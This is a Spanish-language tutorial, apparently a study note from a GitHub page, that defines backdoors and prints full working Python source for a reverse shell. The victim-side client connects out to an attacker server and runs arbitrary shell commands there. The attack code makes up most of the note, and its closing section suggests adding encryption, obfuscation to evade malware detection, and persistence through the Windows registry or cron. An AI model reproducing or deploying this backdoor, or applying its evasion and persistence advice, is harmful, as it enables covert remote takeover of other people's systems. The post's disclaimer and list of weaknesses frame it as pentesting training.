





Un *Backdoor* (puerta trasera) es un tipo malware que permite a un atacante __obtener acceso remoto a un sistema informatico, aplicación o red__. Se puede utilizar para fines maliciosos como la recopilación de de datos, el robo de información o el control remoto del sistema.

Esto se puede ver como una puerta trasera secreta de un edificio que permite a alguien acceder a un edificio __sin ser visto__. En el caso de un Backdoor, puede ser __un programa, una función o un xploit__ que permite al atacante evitar las medidas de seguridad del sistema, siendo esta una herramienta favorita de los Hackers o entidades gubernamentales que utilizan para espiar a sus víctimas.

> 🔒 Se utiliza en ataques reales, pero también en pruebas de penetración con fines éticos.

## 🔍 Características principales
| Característica            | Descripción                                                                 |
|---------------------------|-----------------------------------------------------------------------------|
| 🧩 **Encubierto**         | El acceso no es visible para el usuario o administrador.                    |
| 🔄 **Persistente**        | Puede seguir activo después de reinicios si se configura.                   |
| 🎯 **Control Remoto**     | Permite ejecutar comandos o exfiltrar datos desde cualquier lugar.          |
| ⚙️ **Versátil**           | Puede estar embebido en scripts, binarios, servicios o incluso firmware.    |

## ⚠️ Importante: Uso Responsable
Este contenido es **educativo** y está pensado para **aprendizaje ético**, *pentesting*, y **formación en ciberseguridad defensiva**.  
🔒 No debe utilizarse para actividades maliciosas ni sin autorización.

---

## 💻 Ejemplo : Reverse Shell en Python - [GitHub](https://github.com/tiagomedi/backdoor-reverse-shell)
En este ejemplo analizaremos un backdoor de tipo __reverse shell implementado en Python__ que consta de dos componentes principales:
- **Cliente (`client.py`)**: Ejecuta comandos remotamente y envía los resultados.
- **Servidor (`server.py`)**: Recibe conexiones y permite enviar comandos.
#### Funcionamiento General
El backdoor utiliza una arquitectura de **conexión eversa** donde:
1. *El cliente (víctima) inicia la conexión hacia el servidor (atacante)*
2. *El servidor puede enviar comandos al cliente*
3. *El cliente ejecuta los comandos y devuelve los resultados*
4. *Se mantiene una sesión interactiva tipo shell*

#### Configuración de Red

- **IP del servidor**: `192.168.1.1 : Esta IP (para forma de prueba) se obtiene en ifcofig o ipconfig, dependiendo del sistema operativo.`
- **Puerto**: `5678 (o a elección, solo debe de estar disponible)`
- **Protocolo**: `TCP (socket stream)`

### Análisis del Cliente (`client.py`)
#### Importaciones y Dependencias

```python
import socket
import os
import subprocess
```
- `socket`: Nos permite configurar nuestro script para que reciba conexiones remotas.
- `os`: Esta libreria es se utiliza para acceder como tal a funciones y variantes del sistema operativo, para una variedad de tareas, como crear, leer, abrir, escribir y cerrar archivos, manipular directorios, obtener información del sistema y el hardware.
- `subprocess`: Esta libreria nos permite ejecutar procesos externos y recibir datos de un programa externo.

#### Función `shell()`
Esta función implementa el intérprete de comandos remotos.
```python
def shell():
    current_dir = os.getcwd()
    client.send(current_dir.encode('utf-8'))
```
En este apartado se obtiene el directorio actual y envia la ubicación inicial al servidor (`server.py`).

Luego se **incializa el bucle principal de comandos**. Aquí se reciben los comandos del servidor con un buffer de 3000 bytes, y se encarga de decodificar y limpiar el comando recibido tal como se ve a continuación.
```python
while True:
    res = client.recv(3000)
    command = res.decode('utf-8').strip()
```
Una ves recibido, decodificado y limpiado el mensaje, se debe de manejar. Para ello se realiza las siguientes iteraciones if-else para el **manejo de estos comandos del servidor**.

El primero es el manejo del comando `cd`.
```python
if command.startswith("cd "):
    try:
        os.chdir(command[3:])
        result = os.getcwd()
        client.send(result.encode('utf-8'))
        current_dir = result
    except:
        client.send(b"Error: Directory not found")
```
Las funcionalidades de este manejo son las siguientes:
- Detecta comandos de cambio de directorio
- Cambia el directorio actual usando `os.chdir()`
- Envía el nuevo directorio al servidor
- Maneja errores si el directorio no existe

Luego, se implementa **los comandos de listado de archivos** soportando ambos sistemas operativos, `ls` para entorno Linux/Mac y `dir` para entorno Windows.
```python
elif command == "ls" or command == "dir":
    try:
        files = os.listdir('.')
        result = '\n'.join(files)
        client.send(result.encode('utf-8'))
    except:
        client.send(b"Error listing directory")
```
Las funciones de este tipo de manejo son las siguientes:
- Lista archivos del directorio actual
- Envía la lista separada por saltos de línea

Por ultimo, en caso de ejemplo del blog, se integro **el manejo de comando** `pwd` encargado de obtener y enviar el directorio actual.
```python
elif command == "pwd":
    result = os.getcwd()
    client.send(result.encode('utf-8'))
```
Finalmente, al final de `def shell()`, se integro una ejecución de comandos generales.
```python
else:
    try:
        proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout, stderr = proc.communicate()
        result = stdout + stderr
        print("Result: ", result)
        
        if len(result) == 0:
            client.send(os.getcwd().encode('utf-8'))
        else:
            client.send(result)
    except:
        client.send(b"Error executing command")
```
La funcionalidad de este apartado, es ejecutar cualquier comando del sistema usando `subprocess.Popen` en caso de que fallen los anteriores. Captura tanto stdout como stderr. Si no hay salida, envía el directorio actual y se encarga de maneja errores de ejecución.

#### Función `config()`
```python
def config():
    global client, ip, port
    
    ip = '192.168.1.1'
    port = 5678
    
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((ip, port))
    print(f"Connected to {ip}:{port}")
```
En este apartado se configura la conexión TCP, se establece la conexión con el servidor y se declaran las variables globales para el uso en toda la aplicación.


### Análisis del Servidor (`server.py`)
#### Función `shell()`
Esta función maneja la interfaz del lado del servidor. Una de estas interfaces es la de **Recepción del Directorio Inicial** encargado de recibir el directorio inicial del Cliente.
```python
def shell():
    current_dir = target.recv(3000)
```
Luego se ejecuta el **bucle de comandos iterativos**. 
```python
while True:
    command = input(f"{current_dir} -$ ").encode('utf-8')
    if command.decode('utf-8') == 'exit':
        break
```
La función del código anterior, muestra un prompt interactivo con el directorio actual, permitiendo salir con el comando exit.
```python
elif command.decode('utf-8').startswith('cd'):
    target.send(command)
    res = target.recv(3000)
    current_dir = res
```
El código anterior, se encarga del manejo de comandos `cd`.

Finalmente tenemos el **Envío y Recepción de Comandos** encargado de *Envía comandos al cliente, Recibe y muestra los resultados y Maneja casos especiales y errores*
```python
else:
    try:
        target.send(command)
        res = target.recv(3000)
        if res == "1":
            continue
        elif command.decode('utf-8') == "":
            pass
        else: print(res.decode('utf-8'))
    except: 
        print("Error")
        pass
```
#### Función `config()`
```python
def config():
    global server, target, ip, port

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ip = '192.168.1.1'
    port = 5678
    
    server.bind((ip, port))
    server.listen(5)
    print(f"Server listening on {ip}:{port}")
    
    while True:
        target, addr = server.accept()
        print(f"Connected to {addr}")
        break
```
**Funcionalidad:**
- Crea socket servidor TCP
- Vincula a IP y puerto específicos
- Escucha hasta 5 conexiones simultáneas
- Acepta la primera conexión entrante

### Flujo de Ejecución
Por el lado del Servidor, al momento de iniciarlo, se ejecuta `config()` para iniciar el servidor, y `shell()` para interfaz interactiva. Al momento de ejecutar  `server.py` realiza una espera de conexiones entrantes.


Luego por el lado del Cliente, se ejecuta `config()` para conectarse al servidor, y `shell()` para iniciar el bucle de comandos.


Una vez realizada la conexión del Cliente con su IP y puerto, el Servidor recibe el mensaje de que se conecto correctamente y **muestra el directorio actual del cliente** tal como se aprecia en la siguiente imagen.


Una vez realizada la conexión el Servidor podrá realizar **ejecuciones de comandos sin restricciones en el sistema** siendo esta una de las tantas __Vulnerabilidades Identificadas__, *las otras son, sin autenticación, sin cifrado ya que esta en texto plano, sin validación de entrada y con manejos de errores básicos (información de errores limitadas)*. A continuación se aprecia la ejecución del comando `ls` desde la vista de `server.py`, entregandole los directorios del Cliente.


Tambien podemos observar los otros manejos de comandos explicados anteriormente. Como `pwd`, `cd ..` y nuevamente `ls` desde la vista del Servidor. Y finalmente se cierra la conexión realizando un `exit` desde la terminal del Servidor.


### 🛠️ Posibles Mejoras
1. **🔐 Cifrado**: El problema actual es que las comunicaciones van en texto plano, lo que permite fácil interceptación y análisis del tráfico. La solución a lo anterior, es **Implementar SSL/TLS usando la librería `ssl` de Python.** El beneficio de realizar esto, es el cifrado completo de las comunicaciones, protección contra __eavesdropping__ *(es el acto de escuchar conversaciones privadas sin permiso)* y tener una integridad de los datos transmitidos.
2. **🧑‍💻 Autenticación**: El código no posee una verificación de identidad, cualquier cliente puede conectarse al servidor. Para solucionar lo anterior, se debe de __Implementar autenticación por token, contraseña o certificados.__
3. **🕵️‍♂️ Ofuscación**: El código es FACIL de identificar por sistemas de detección de malware. La solución a esto es tener  __Múltiples técnicas de ofuscación y evasión__, como por ejemplo *Ofuscación de Imports, Polimorfismo y Metamorfismo, etc.*
4. **💾 Persistencia**: Actualmente el backdoor se pierde al reiniciar el sistema o cerrar el proceso. Lo que se debe de realizar son __Múltiples mecanismos de persistencia según el sistema operativo__ ya sea Windows con `winreg`, `shutil` por ejemplo; Linux con `stat` añadiendo trabajo cron para ejecuciones periódicas.

## ✅ Finalización del Apunte
El Backdoor del ejemplo implementa un __Reverse Shell Básico__ pero funcional que permite **el control remoto completo del sistema, navegación por el sistema de archivos, ejecución de comandos arbitrarios y una interfaz interactiva tipo Shell.**

> Su simplicidad lo hace fácil de entender y modificar, pero también fácil de detectar por sistemas de seguridad modernos 👁️.